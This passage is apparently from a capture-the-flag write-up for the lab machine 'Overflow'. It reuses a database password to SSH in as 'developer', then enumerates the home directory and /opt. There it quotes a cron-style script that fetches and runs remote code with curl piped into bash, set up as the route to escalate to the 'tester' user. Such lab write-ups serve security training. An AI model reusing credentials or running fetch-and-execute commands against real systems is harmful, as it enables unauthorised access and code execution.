 We have a user called `developer`, and we also have a database password for `developer`. Lets use SSH with these credentials.

## SSH as Developer
```bash
$ ssh developer@overflow.htb
developer@overflow.htbs password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Mar 22 08:28:11 IST 2022

  System load:  0.0               Processes:           169
  Usage of /:   45.2% of 5.84GB   Users logged in:     0
  Memory usage: 12%               IP address for eth0: 10.10.11.119
  Swap usage:   0%


0 updates can be applied immediately.


-sh: 28: set: Illegal option -o history
-sh: 1: set: Illegal option -o history

$ pwd
/home/developer
$ ls -la
total 28
drwxr-xr-x 5 developer root      4096 Sep 28 04:42 .
drwxr-xr-x 4 root      root      4096 May 26  2021 ..
lrwxrwxrwx 1 root      root         9 Sep 27 22:49 .bash_history -> /dev/null
-rw-r--r-- 1 developer root      3106 May 28  2021 .bashrc
drwx------ 2 developer developer 4096 May 26  2021 .cache
drwx------ 4 developer developer 4096 May 28  2021 .gnupg
-rw-r--r-- 1 root      root        15 May 30  2021 .profile
drwx------ 2 developer developer 4096 Sep 28 04:44 .ssh

```

We still don't have `user.txt` flag! It is in the `/home/tester` directory. So we need to find a way to escalate to `tester` user.

Enumerating the machine, we see some interesting files owned by `tester` in `/opt`:
```
developer@overflow:/opt$ ls -la
total 16
drwxr-xr-x   3 root   root   4096 Sep 17  2021 .
drwxr-xr-x  25 root   root   4096 Jan 26 21:08 ..
-rwxr-x---+  1 tester tester  109 May 28  2021 commontask.sh
drwxr-x---+  2 root   root   4096 Sep 17  2021 file_encrypt

developer@overflow:/opt$ cat commontask.sh 
#!/bin/bash

#make sure its running every minute.

bash < <(curl -s http://taskmanage.overflow.htb/task.sh)
```
